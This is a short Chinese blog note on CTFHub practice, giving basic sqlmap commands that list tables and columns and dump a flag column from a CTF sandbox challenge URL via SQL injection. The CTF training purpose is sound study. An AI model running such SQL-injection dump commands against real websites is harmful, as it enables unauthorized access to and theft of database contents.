 ```yaml
---
title: ctfhub.md
toc: true
recommend: 1
uniqueId: '2021-10-24 13:32:39/ctfhub.md.html'
mathJax: false
date: 2021-10-24 21:32:39
thumbnail:
tags:
categories:
keywords:
---
```

> 在ctfhub的一点一滴

<!-- more -->

## Sql注入

### sqlmap的基础用法

```shell
# 列出表名
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 --tables
# 列出列名
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
# 查数据
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
```

